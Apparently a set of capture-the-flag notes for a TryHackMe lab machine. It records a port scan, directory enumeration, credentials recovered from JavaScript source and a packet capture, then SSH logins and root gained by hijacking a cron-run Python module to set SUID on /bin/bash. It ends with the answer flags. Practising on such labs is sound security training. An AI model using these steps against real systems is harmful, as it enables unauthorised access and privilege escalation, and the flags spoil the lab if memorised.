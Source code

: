 # ip 
	10.10.170.77
# nmap
	# 22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)

	# 80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
	|_http-server-header: Apache/2.4.41 (Ubuntu)
	|_http-title: Site doesn't have a title (text/html).
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
	# 37370/tcp open  ftp     vsftpd 3.0.3
	Service Info: OS: Unix



# dir
	/gallery/
	/index.html
	/static/
	/pricing

# notes

	in /static/00
		dev notes from valleyDev:
		-add wedding photo examples
		-redo the editing on #4
		-remove /dev1243224123123
		-check for SIEM alervall


in the /dev1243224123123 
	we find login page 
	check the source we find dev.js
		username === "siemDev" && password === "california"
		

		/dev1243224123123/devNotes37370.txt:
			dev notes for ftp server:
			-stop reusing credentials
			-check for any vulnerabilies
			-stay up to date on patching
			-change ftp port to normal port


use the crenditals to ftp in 37370
	
in the siemHTTP2.pcapng in http we find 

uname=valleyDev&psw=ph0t0s1234

lets ssh it 

valleyDev: ph0t0s1234
# shell

valleyAuth..

strings 

e6722920bab2326f8217e4: liberty123


get the valley user

valley: liberty123


we find in crontab the python script run 

we catn edit it but we can got to the base64 script and edit it 
add 

import os
os.system("chmod u+s /bin/bash")

after a minute we see the /bin/bash add our user to the file 
run bash -p

###### we get the root! ###### 




# flags
	user.txt: THM{k@l1_1n_th3_v@lley}
	root.txt: THM{v@lley_0f_th3_sh@d0w_0f_pr1v3sc}



















